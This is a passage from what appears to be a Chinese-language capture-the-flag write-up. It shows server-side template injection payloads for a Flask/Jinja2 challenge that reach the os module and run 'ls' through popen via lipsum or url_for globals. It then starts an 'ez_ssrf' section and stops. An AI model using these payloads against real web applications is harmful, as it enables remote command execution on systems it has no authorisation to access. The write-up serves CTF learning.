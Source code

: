 好像是要GET一个name参数

试试看看

![](./images/image-77.png)

直接开始注入

![](./images/image-78.png)

```
payload:{{lipsum.__globals__.__getitem__('os').popen('ls').read()}}
或者
{{url_for.__globals__.os.popen('ls').read()}}
```

没过滤什么东西，有很多语句都能注入

## ez\_ssrf

进去是下面这个界面
